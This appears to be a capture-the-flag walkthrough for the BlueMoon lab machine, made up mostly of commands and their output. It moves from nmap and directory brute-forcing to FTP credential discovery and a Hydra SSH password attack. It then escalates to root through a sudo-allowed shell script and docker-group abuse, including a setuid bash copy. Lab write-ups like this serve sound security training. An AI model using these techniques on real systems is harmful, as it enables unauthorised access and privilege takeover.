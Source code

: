 └─$ sudo nmap  -sT -A -Pn -n 192.168.110.12
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-01 10:29 CEST
Nmap scan report for 192.168.110.12
Host is up (0.00075s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 2c:e2:63:78:bc:55:fe:f3:cb:09:a9:d8:26:2f:cb:d5 (RSA)
|   256 c4:c8:6b:48:92:25:a5:f7:00:9f:ab:b2:56:d5:ed:dc (ECDSA)
|_  256 a9:5b:39:a1:6e:05:91:0f:75:3c:88:0b:55:7c:a8:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: BlueMoon:2021
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:04:C6:1A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.75 ms 192.168.110.12

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.19 seconds


```bash
gobuster dir -u http://192.168.110.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
...
/server-status        (Status: 403) [Size: 279]
/hidden_text          (Status: 200) [Size: 1169]

```

```txt
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt   --sc 200 http://192.168.110.12/FUZZ

Target: http://192.168.110.12/FUZZ
Total requests: 220560

"http://192.168.110.12/"
000206056:   200        45 L     109 W      1169 Ch     "hidden_text"
```

QR Code

```bash
#!/bin/bash
HOST=ip
USER=userftp
PASSWORD=ftpp@ssword
ftp -inv $HOST user $USER $PASSWORD
```

```bash
ftp userftp@192.168.110.12
Connected to 192.168.110.12.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||42425|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             147 Mar 08  2021 information.txt
-rw-r--r--    1 0        0             363 Mar 08  2021 p_lists.txt
```

```console
$ cat information.txt                                                                                                                                     
Hello robin ...!
    
    I'm Already Told You About Your Password Weekness. I will give a Password list. you May Choose Anyone of The Password.

$ cat p_lists.txt 
h4ck3rp455wd
4dm1n
Pr0h4ck3r
5cr1ptk1dd3
pubgpr0pl4yer
H34d5h00t3r
...
```

```console
└─$ hydra -l robin -P p_lists.txt ssh://192.168.110.12
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-01 15:05:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 32 login tries (l:1/p:32), ~2 tries per task
[DATA] attacking ssh://192.168.110.12:22/
[22][ssh] host: 192.168.110.12   login: robin   password: k4rv3ndh4nh4ck3r
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-04-01 15:05:26

```

```console
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
robin:x:1000:1000:robin,,,:/home/robin:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
messagebus:x:104:111::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
userftp:x:1001:1001::/home/userftp:/bin/sh
ftp:x:106:113:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
jerry:x:1002:1002::/home/jerry:/bin/bash

```
```console
robin@BlueMoon:~/project$ sudo -l
Matching Defaults entries for robin on bluemoon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User robin may run the following commands on bluemoon:
    (jerry) NOPASSWD: /home/robin/project/feedback.sh

```
```bash
robin@BlueMoon:~/project$ cat /home/robin/project/feedback.sh
#!/bin/bash
/bin/bash -p
```
```bash
robin@BlueMoon:~/project$ sudo -u jerry /home/robin/project/feedback.sh
jerry@BlueMoon:/home/robin/project$ id
uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)
```

```bash
docker run -v /root:/mnt -it alpine
```
```console
jerry@BlueMoon:/home/robin/project$ docker run -v /root:/mnt -it alpine
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/ # cat /mnt/root.txt 

==> Congratulations <==

You Reached Root...!

Root-Flag 
    
     Fl4g{r00t-H4ckTh3P14n3t0nc34g41n}

Created By 
       
        Kirthik - Karvendhan
                    
 
instagram = ____kirthik____



!......Bye See You Again......!

/ # 

```

```console
jerry@BlueMoon:/home/robin$ cp /usr/bin/bash /tmp/
jerry@BlueMoon:/home/robin$ docker run -v /tmp:/mnt -it alpine
/ # chown  root.root /mnt/bash 
/ # chmod 4755 /mnt/bash 
/ # exit
jerry@BlueMoon:/home/robin$ /tmp/bash -p
bash-5.0# id
uid=1002(jerry) gid=1002(jerry) euid=0(root) groups=1002(jerry),114(docker)
bash-5.0# whoami
root
```
